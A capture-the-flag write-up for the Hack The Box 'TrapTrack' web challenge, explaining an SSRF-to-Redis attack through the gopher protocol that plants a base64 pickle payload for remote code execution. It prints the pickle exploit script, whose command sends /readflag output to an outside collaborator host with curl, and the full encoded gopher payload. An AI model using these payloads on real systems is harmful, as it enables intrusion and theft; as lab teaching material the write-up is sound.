










## Web - TrapTrack (hard)
> The aliens have prepared several trap websites to spread their propaganda campaigns on the internet. Our intergalactic forensics team has recovered an artifact of their health check portal that keeps track of their trap websites. Can you take a look and see if you can infiltrate their system?
>  Readme Author: [mukarramkhalid](https://mukarramkhalid.com/hack-the-box-cyber-apocalypse-2023-the-cursed-mission-writeups)
>
> I COULDN'T GET THE ZIP. DON'T TRY TO DOWNLOAD
> [`web_traptrack.zip`](web_traptrack.zip)

We have the source code of a Python based application. It has a login page.



The username and the password is hardcoded in the source code as admin/admin.



Once we login, we see a feature to add trap tracks.





If we create a trap with our Burp Collaborator URL, we get a hit.


```
POST /api/tracks/add HTTP/1.1
Host: 188.166.152.84:31756
Content-Length: 94
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://188.166.152.84:31756
Referer: http://188.166.152.84:31756/admin/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=12d5ff67-0645-4c55-be8e-e6bdc9165655
Connection: close
 
{"trapName":"My Collaborator","trapURL":"http://4typ15s7l146txnax1f393qds4yvmmab.oastify.com"}
```


So there's an SSRF vulnerability here. We also see from the Dockerfile that there's Redis running internally on the default port 6379.

We can use the SSRF to issue commands to redis using gopher protocol. This article explains the attack really well.

Redis accepts text based communication in the following format.



We see that the application uses Redis to handle background queue jobs.

In cache.py, the application pulls a job from the redis queue, base64 decodes it, and then uses pickle.loads() on it. This can lead to python deserialization attack.



So the attack path is that we use the SSRF exploit to issue a SET command to Redis to put our base64 encoded pickled payload in the job queue, and when the application loads it, it will trigger RCE.

We need to set the payload in a hash type key jobs so we actually need to use HSET instead of SET, and a better way to do it would be to update the value of an existing job.

If we run the challenge docker locally, we see that there will always be an existing job at key 100 in Redis.
```
127.0.0.1:6379> KEYS *
1) "jobqueue"
2) "jobs"
3) "100"
127.0.0.1:6379> TYPE jobs
hash
127.0.0.1:6379> HGET jobs 100
"gASVeAAAAAAAAAB9lCiMBmpvYl9pZJRLZIwJdHJhcF9uYW1llIwJV2lraXBlZGlhlIwIdHJhcF91cmyUjBpodHRwczovL3d3dy53aWtpcGVkaWEub3JnL5SMCWNvbXBsZXRlZJRLAIwKaW5wcm9ncmVzc5RLAIwGaGVhbHRolEsAdS4="
```
We can use HSET to update the value of this job.
```
HSET jobs 100 VALUE_HERE
```
For the base64 encoded pickle payload, we can use this script.
```
#!/usr/bin/python3
 
import pickle
import base64
 
class PickleRCE(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))
 
# Send flag to our burp collaborator 
command = 'curl -X POST "gn71vhmjfdyin9hmrd9f3fkpmgs7gz4o.oastify.com" --data `/readflag`'
 
payload = base64.b64encode(pickle.dumps(PickleRCE()))
print(payload)
print(len(payload))
```
Let's try to create a gopher payload for the HSET command.
```
gopher://127.0.0.1:6379/_%0D
%0D%0A  <-- \r\n
%2A4    <-- %2A is $ and there are total 4 arguments in our command
%0D%0A  <-- \r\n
%244    <-- %2A is $ and 4 is the length of HSET
%0D%0A  <-- \r\n
HSET    <-- HSET
%0D%0A  <-- \r\n
%244    <-- %2A is $ and 4 is the length of "jobs"
%0D%0A  <-- \r\n
jobs    <-- jobs
%0D%0A  <-- \r\n
%243    <-- $ and 3 is the length of "100"
%0D%0A  <-- \r\n
100     <-- 100 is the job id
%0D%0A  <-- \r\n
%24156  <-- $ and 156 is the length of our payload
%0D%0A  <-- \r\n
gASVaQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjE5jdXJsIC1YIFBPU1QgImduNzF2aG1qZmR5aW45aG1yZDlmM2ZrcG1nczdnejRvLm9hc3RpZnkuY29tIiAtLWRhdGEgYC9yZWFkZmxhZ2CUhZRSlC4= <-- base64 encoded payload
%0D%0A  <-- \r\n
```
This is what the final SSRF payload looks like.
```
gopher://127.0.0.1:6379/_%0D%0D%0A%2A4%0D%0A%244%0D%0AHSET%0D%0A%244%0D%0Ajobs%0D%0A%243%0D%0A100%0D%0A%24156%0D%0AgASVaQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjE5jdXJsIC1YIFBPU1QgImduNzF2aG1qZmR5aW45aG1yZDlmM2ZrcG1nczdnejRvLm9hc3RpZnkuY29tIiAtLWRhdGEgYC9yZWFkZmxhZ2CUhZRSlC4=%0D%0A
```
Let's give it a try.

We add the trap track with our SSRF payload.



After that, if we refresh the trap list page, we get the flag on our Burp Collaborator.



## Flag
HTB{tr4p_qu3u3d_t0_rc3!}